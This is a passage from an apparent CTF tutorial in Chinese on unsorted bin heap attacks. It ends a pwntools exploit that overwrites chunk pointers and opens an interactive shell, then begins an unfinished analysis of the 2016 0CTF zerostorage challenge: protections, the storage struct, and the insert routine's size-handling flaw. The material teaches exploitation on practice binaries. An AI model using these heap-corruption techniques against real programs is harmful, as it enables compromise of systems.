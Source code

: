```Python
bk = magic - 0x10

edit_heap(0, 0x20 + 0x20, "a" * 0x20 + p64(0) + p64(0x91) + p64(fd) + p64(bk))
create_heap(0x80, "dada")  #trigger unsorted bin attack
r.recvuntil(":")
r.sendline("4869")
r.interactive()

```

## 2016 0CTF zerostorage-待完成

**注：待進一步完成。**

這裏我們以 2016 年 0CTF 的 [zerostorage](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unsorted_bin_attack/zerostorage) 爲例，進行介紹。

**這個題當時給了服務器的系統版本和內核版本，所以自己可以下一個一模一樣的進行調試，這裏我們就直接用自己的本地機器調試了。但是在目前的Ubuntu 16.04 中，由於進一步的隨機化，導致 libc 加載的位置與程序模塊加載的位置之間的相對偏移不再固定，所以 BrieflyX 的策略就無法再次使用，似乎只能用 angelboy 的策略了。**

### 安全性檢查

可以看出，該程序開啓了所有的保護

```shell
pwndbg> checksec
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unsorted_bin_attack/zerostorage/zerostorage'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

### 基本功能分析

程序管理在 bss 段的存儲空間 storage ，具有插入，刪除，合併，刪除，查看，枚舉，退出功能。這個storage的結構體如下

```text
00000000 Storage         struc ; (sizeof=0x18, mappedto_7)
00000000                                         ; XREF: .bss:storage_list/r
00000000 use             dq ?
00000008 size            dq ?
00000010 xor_addr        dq ?
00000018 Storage         ends
```

#### insert-1

基本功能如下

1.  逐一查看 storage 數組，查找第一個未使用的元素，但是這個數組最大也就是32。
2.  讀取storage 元素所需要存儲內容的長度。
    -   如果長度不大於0，直接退出；
    -   否則如果申請的字節數小於128，那就設置爲128；
    -   否則，如果申請的字節數不大於4096，那就設置爲對應的數值；
    -   否則，設置爲4096。
3.  使用 calloc 分配指定長度，注意 calloc 會初始化 chunk 爲0。
4.  將 calloc 分配的內存地址與 bss 段的一個內存（初始時刻爲一個隨機數）進行抑或，得到一個新的內存地址。
5.  根據讀取的storage的大小來讀入內容。
6.  將對應的storage的大小以及存儲內容的地址保存到對應的storage 元素中，並標記該元素處於可用狀態。**但是，需要注意的是，這裏記錄的storage的大小是自己輸入的大小！！！**
7.  遞增 storage num的數量。
